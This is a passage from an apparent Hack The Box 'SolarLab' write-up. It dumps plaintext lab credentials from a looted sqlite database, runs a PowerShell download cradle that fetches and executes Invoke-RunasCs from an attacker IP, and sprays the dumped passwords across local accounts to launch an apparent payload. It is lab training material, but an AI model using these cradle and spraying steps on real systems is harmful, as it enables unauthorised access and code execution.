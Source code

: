 Enumerate database

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ sqlite3 loot/users.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .headers on
sqlite> .mode columns
sqlite> .tables
user
sqlite> select * from user;
id  username    password
--  ----------  ----------------------
1   blakeb      ThisCanB3typedeasily1@
2   claudias    007poiuytrewq
3   alexanderk  HotP!fireguard
sqlite>
```

### Password spraying

```bash
PS C:\Users\blake\Documents> iex (new-object net.webclient).DownloadString('http://10.10.14.21/Invoke-RunasCs.ps1')
```

```bash
PS C:\Users\blake\Documents> Get-LocalUser | % { Invoke-RunasCs -LogonType 8 -Username "$_" -Password "007poiuytrewq" -Command "C:\programdata\client.exe"; }
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
```

```bash
PS C:\Users\blake\Documents> Get-LocalUser | % { Invoke-RunasCs -LogonType 8 -Username "$_" -Password "HotP!fireguard" -Command "C:\programdata\client.exe"; }
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
[*] Warning: The function CreateProcessWithLogonW is not compatible with the requested logon type '8'. Reverting to the Interactive logon type '2'. To force a specific logon type, use the flag combination --re
mote-impersonation and --logon-type.
[*] Warning: The logon for user 'openfire' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more privileged token.

2024/05/13 11:23:51 Forking

[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
```
